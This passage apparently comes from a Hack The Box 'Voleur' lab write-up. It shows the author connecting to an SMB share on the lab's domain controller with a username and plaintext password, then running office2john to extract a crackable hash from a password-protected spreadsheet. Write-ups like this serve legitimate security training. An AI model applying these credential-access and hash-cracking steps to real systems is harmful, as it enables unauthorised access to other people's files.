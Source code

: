 ![image.png](/assets/images/Voleur_HTB/image%209.png)

Now connecting to the smb share using the FQDN of the DC.

```bash
smbclient //dc.voleur.htb/IT -U 'ryan.naylor'%'HollowOct31Nyt' -k
```

![image.png](/assets/images/Voleur_HTB/image%2010.png)

Inspecting this Access_Review.xlsx file.

And this file is password protected.

![image.png](/assets/images/Voleur_HTB/image%2011.png)

## Exploitation

Using office2john to obtain a hash JTR format.

```bash
office2john Access_review.xlsx > accessreview.hash
```

![image.png](/assets/images/Voleur_HTB/image%2012.png)

